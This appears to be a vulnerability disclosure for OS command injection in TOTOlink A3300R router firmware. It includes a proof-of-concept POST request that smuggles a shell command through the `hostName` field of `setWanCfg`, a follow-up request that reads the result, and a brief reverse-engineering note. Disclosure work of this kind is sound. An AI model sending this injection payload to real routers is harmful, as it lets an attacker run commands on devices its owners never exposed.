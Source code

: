# TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWanCfg` request,`hostName` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=07A82EFFF70D2D6B HTTP/1.1
Host: itotolink.net
Content-Length: 201
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/wan.html?token=07A82EFFF70D2D6B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"hostName":"TOTOLINK`ls>/web/123.txt`","dhcpMtu":"1500","proto":1,"dnsMode":"0","ttlWay":"1","lcpEchoEnable":"1","option60Enable":"0","clone":"0","cloneMac":"40:EE:15:D4:88:6D","topicurl":"setWanCfg"}
```

injection the command "ls>/web/123.txt"

![image-20240109130008597](D:\typora 图片\image-20240109130008597.png)

check the result.

```
GET /123.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/upload.html?token=07A82EFFF70D2D6B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109130149275](D:\typora 图片\image-20240109130149275.png)

## Analysis

sub_422380 will handle the `setWanCfg` request. sub_422380 get `hostName` parameter from request body, then pass to `doSystem` function.

![image-20240109125531671](D:\typora 图片\image-20240109125531671.png)